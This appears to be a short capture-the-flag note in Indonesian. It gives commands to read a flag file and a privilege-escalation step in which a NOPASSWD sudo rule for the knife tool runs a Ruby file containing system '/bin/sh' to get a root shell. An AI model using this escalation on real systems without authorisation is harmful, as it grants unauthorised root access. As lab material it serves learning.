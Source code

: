 # get flag windows / linux

di linux cat ./flag.txt
di windows type flag.txt

# knife ruby

karna sudo -l bisa sudo nopasswd, tinggal eskalasi ke root aja via knife
cara exec code ruby:

    sudo /usr/bin/knife exec /tmp/exp.rb 

code exp.rb isinya adalah:

    system "/bin/sh" 